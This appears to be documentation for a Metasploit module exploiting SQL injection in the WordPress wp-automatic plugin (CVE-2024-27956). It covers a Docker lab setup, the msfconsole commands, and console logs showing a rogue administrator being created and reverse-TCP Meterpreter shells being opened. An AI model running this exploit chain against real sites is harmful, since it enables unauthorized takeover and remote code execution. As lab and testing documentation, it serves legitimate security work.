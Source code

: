 ## Vulnerable Application

The vulnerability affects the **wp-automatic** plugin, version **3.92.0** and
below, allowing unauthenticated SQL injection that can be leveraged to create a
malicious administrator and gain full control of the WordPress instance.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Below is the content of the **docker-compose.yml** file to set up WordPress
     with the vulnerable wp-automatic plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration** (for plugin uploads):
   - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```bash
upload_max_filesize = 64M
post_max_size = 64M
```

This increases the file size limits for uploading large plugins.

3. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install wp-automatic Plugin**:
   - Download the vulnerable version of wp-automatic:

```bash
wget https://github.com/ThatNotEasy/CVE-2024-27956/raw/refs/heads/main/wp-automatic.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip wp-automatic.zip
docker cp wp-automatic wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **wp-automatic** plugin in the WordPress admin panel.

## Verification Steps

1. **Set up WordPress** with the vulnerable **wp-automatic** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use exploit/multi/http/wp_automatic_sqli_to_rce
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to create a new administrator in the WordPress database.

## Options

### USERNAME
The username to create for the malicious administrator. If not set, a random username will be generated using Faker.

### PASSWORD
The password for the malicious administrator. If not set, a random password will be generated using Faker.

### EMAIL
The email address for the malicious administrator. If not set, a random email will be generated using Faker.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **wp-automatic <= 3.92.0** on a Docker environment with MySQL.

### Step-by-step Scenario

1. **PHP Meterpreter (ARCH_PHP) (php/meterpreter/reverse_tcp)**:

```bash
msf exploit(multi/http/wp_automatic_sqli_to_rce) > options 

Module options (exploit/multi/http/wp_automatic_sqli_to_rce):

   Name       Current Setting          Required  Description
   ----       ---------------          --------  -----------
   EMAIL      hyman_wunsch@koepp.test  no        Email for the new user
   PASSWORD   wO4VlSc0uuee4C1H         no        Password for the new user
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                              yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                                 oit/basics/using-metasploit.html
   RPORT      80                       yes       The target port (TCP)
   SSL        false                    no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                        yes       The base path to the wordpress application
   USERNAME   roland                   no        Username to create
   VHOST                               no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf exploit(multi/http/wp_automatic_sqli_to_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting SQLi test to verify vulnerability...
[+] Target is vulnerable to SQLi!
[+] The target appears to be vulnerable.
[*] Starting the process to identify the table prefix...
[*] Executing SQLi to retrieve the table prefix for users table containing 'user_login' and 'user_pass' columns...
[+] Successfully detected table prefix: wp_
[+] roland is now an administrator!
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/Stim/sensor.php...
[*] Sending stage (39927 bytes) to 172.18.0.3
[+] Deleted sensor.php
[+] Deleted Stim.php
[+] Deleted ../Stim
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.18.0.3:45388) at 2024-09-22 14:05:33 +0200

meterpreter > sysinfo 
Computer    : bfc25b6dcc8b
OS          : Linux bfc25b6dcc8b 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

2. **Linux Command Shell (ARCH_CMD) (cmd/linux/http/x64/meterpreter/reverse_tcp)**:

```bash
msf exploit(multi/http/wp_automatic_sqli_to_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting SQLi test to verify vulnerability...
[+] Target is vulnerable to SQLi!
[+] The target appears to be vulnerable.
[*] Starting the process to identify the table prefix...
[*] Executing SQLi to retrieve the table prefix for users table containing 'user_login' and 'user_pass' columns...
[+] Successfully detected table prefix: wp_
[+] roland is now an administrator!
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/fixflex/driver.php...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted driver.php
[+] Deleted fixflex.php
[+] Deleted ../fixflex
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.18.0.3:47934) at 2024-09-22 15:52:42 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 12.5 (Linux 5.15.0-121-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

